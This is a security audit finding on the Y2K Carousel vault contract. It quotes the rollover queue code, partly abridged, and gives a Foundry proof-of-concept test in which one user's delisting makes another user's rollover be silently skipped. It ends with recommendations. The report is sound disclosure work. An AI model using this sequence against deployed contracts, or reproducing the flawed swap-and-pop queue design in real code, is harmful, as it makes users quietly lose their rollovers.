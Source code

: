 Ruhum

medium

# attacker can cause user's rollover to not be executed

## Summary
It's possible for an attacker to cause a user's rollover not to be executed for a given epoch.

## Vulnerability Detail
When rollovers are processed, the Carousel contract keeps track of the last index of processed rollovers for a given epoch. Each time `mintRollovers()` is called for that epoch, it continues from that index. Here's the relevant part of the code:
```sol
    function mintRollovers(uint256 _epochId, uint256 _operations)
        external
        epochIdExists(_epochId)
        epochHasNotStarted(_epochId)
        nonReentrant
    {

        uint256 length = rolloverQueue.length;
        uint256 index = rolloverAccounting[_epochId];

        if (_operations > length || (index + _operations) > length)
            _operations = length - index;

        QueueItem[] memory queue = rolloverQueue;


        // account for how many operations have been done
        uint256 prevIndex = index;
        uint256 executions = 0;


        while ((index - prevIndex) < (_operations)) {
            // only roll over if last epoch is resolved
            if (epochResolved[queue[index].epochId]) {

            }
            index++;
        }

        if (executions > 0) rolloverAccounting[_epochId] = index;
    }
```

When a rollover is delisted, it moves the entry at the end of the array to the removed entry's index. Then it removes the element at the end:
[1, 2, 3, 4] -> remove index 1
[1, 4, 3]

```sol
    function delistInRollover(address _owner) public {
        // check if user has already queued up a rollover
        if (ownerToRollOverQueueIndex[_owner] == 0) revert NoRolloverQueued();
        // check if sender is approved by owner
        if (
            msg.sender != _owner &&
            isApprovedForAll(_owner, msg.sender) == false
        ) revert OwnerDidNotAuthorize(msg.sender, _owner);

        // swich the last item in the queue with the item to be removed
        uint256 index = getRolloverIndex(_owner);
        uint256 length = rolloverQueue.length;
        if (index == length - 1) {
            // if only one item in queue
            rolloverQueue.pop();
            delete ownerToRollOverQueueIndex[_owner];
        } else {
            // overwrite the item to be removed with the last item in the queue
            rolloverQueue[index] = rolloverQueue[length - 1];
            // remove the last item in the queue
            rolloverQueue.pop();
            // update the index of prev last user ( mapping index is allways array index + 1)
            ownerToRollOverQueueIndex[rolloverQueue[index].receiver] =
                index +
                1;
            // remove receiver from index mapping
            delete ownerToRollOverQueueIndex[_owner];
        }
    }
```

By delisting an entry that has already been processed, you can move the last element in the queue to an index that won't be processed anymore. That means that the user will miss the rollover for that given epoch.

Here's a test showcasing the issue:

```sol
// CarouselTest.t.sol

    function testDelistAttack() public {
        // test multiple rollovers
        // roll over users from testDepositIntoQueueMultiple test
        testDepositIntoQueueMultiple();

        // create new epoch
        uint40 _epochBegin = uint40(block.timestamp + 3 days);
        uint40 _epochEnd = uint40(block.timestamp + 4 days);
        uint256 _epochId = 3;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        uint256 prevEpochUserBalance = 10 ether - relayerFee;

        uint256 prevEpoch = 2;
        // enlist in rollover for next epoch
        helperRolloverFromEpoch(prevEpoch, USER,  prevEpochUserBalance);
        helperRolloverFromEpoch(prevEpoch, USER2, prevEpochUserBalance);
        helperRolloverFromEpoch(prevEpoch, USER3, prevEpochUserBalance);
        helperRolloverFromEpoch(prevEpoch, USER4, prevEpochUserBalance);
    
         // resolve prev epoch
        vm.warp(block.timestamp + 2 days + 1 hours); // warp to one hour after prev epoch end
        vm.startPrank(controller);
        vault.resolveEpoch(prevEpoch);
        vm.stopPrank();

        // simulate prev epoch win
        stdstore
            .target(address(vault))
            .sig("claimTVL(uint256)")
            .with_key(prevEpoch)
            .checked_write(1000 ether);


        // execute two of the rollovers
        vault.mintRollovers(_epochId, 2); 

        vm.prank(USER);
        // User 1 delists their entry in the rollover queue.
        // This will pop the last element and put it at the index of the
        // entry that's delisted (index 0)
        // Because the rolloverAccounting index is already at 2, the
        // new entry at index 0 won't be processed
        vault.delistInRollover(USER);
    
        // entry at index 0 is now USER4's
        (, address receiver, ) = vault.rolloverQueue(0);
        assertEq(receiver, USER4);
    
        assertEq(vault.getRolloverQueueLenght(), 3);

        // mint the last remaining rollover (belongs to USER3)
        vault.mintRollovers(_epochId, 1);
    

        assertEq(vault.balanceOf(USER, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOfEmissions(USER, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOf(USER2, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOfEmissions(USER2, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOf(USER2, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOfEmissions(USER2, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOf(USER3, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOfEmissions(USER3, _epochId), prevEpochUserBalance - relayerFee);
        assertEq(vault.balanceOf(USER4, _epochId), 0);
        assertEq(vault.balanceOfEmissions(USER4, _epochId), 0);
    }
```

## Impact
Generally, this issue is hard to catch. There's no event notifying you that your entry was modified. Unless you check the contract, you won't understand why your rollover wasn't processed.

That will cause you to miss your rollover timing. Say that you want to roll over from epoch 2 -> 3. Because your entry was moved by someone else delisting theirs, you won't be able to rollover from epoch 2 to 3.

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L276-L304
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L361

## Tool used

Manual Review

## Recommendation
There is no easy fix for this issue. With the current design, modifying the queue will always result in issues unless it's done before any rollovers have been executed for the next epoch. Now you might think that you just go ahead and block delistings after rollovers were executed. But, then you open up a DOS vector for an attacker. They just watch for an epoch to end, backrun that transaction, and process one rollover. That way nobody will be able to ever delist.

I think the only real solution is to throw out the whole queue design.